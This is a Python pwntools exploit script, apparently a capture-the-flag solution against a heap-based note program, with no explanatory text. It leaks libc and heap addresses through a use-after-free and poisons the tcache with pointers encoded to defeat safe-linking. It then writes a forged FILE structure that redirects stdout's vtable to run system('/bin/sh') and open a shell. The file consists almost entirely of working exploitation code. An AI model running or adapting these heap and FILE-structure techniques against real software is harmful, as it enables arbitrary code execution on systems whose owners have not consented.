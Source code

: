 ```python
    p.sendlineafter(b'choice: ',b'3')
    p.sendlineafter(b'Index: ',f'{idx}')
    p.sendlineafter(b'Size: ',f'{size}')
    p.send(data)

def print_note(idx):
    p.sendlineafter(b'choice: ',b'4')
    p.sendlineafter(b'Index: ',str(idx).encode())

def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, adr):
    return p^(adr>>12)
add(0,0x450)
add(1,0x100)
add(2,0x100)
add(3,0x20)

delete(0)
print_note(0)
p.recvuntil(b'Data: ')
libc.address = u64(p.recv(6).ljust(8,b'\x00')) -  0x21ace0
log.info(f'leak libc: {hex(libc.address)}')
delete(2)
delete(1)

print_note(2)
p.recvuntil(b'Data: ')
heap_base = u64(p.recv(5).ljust(8,b'\x00')) * 0x1000
log.info(f'heap base: {hex(heap_base)}')
print(hex(libc.address+0x21b780))
read_note(1,0x30,p64(obfuscate(libc.address+0x21b780,0x8e0+heap_base)))
input()
add(1,0x100)
add(2,0x100)
log.info(f'system: {hex(libc.sym.system)}')
#read_note(2,0x39,b'/bin/sh\x00'.ljust(0x28,b'a') + p64(libc.sym.system))
stdout_lock = libc.address + 0x21ca70   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x00000000001636a0

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock= stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

log.info(f'ehheheheheh" {hex(len(fake))}')

read_note(2,0xf8,bytes(fake))

```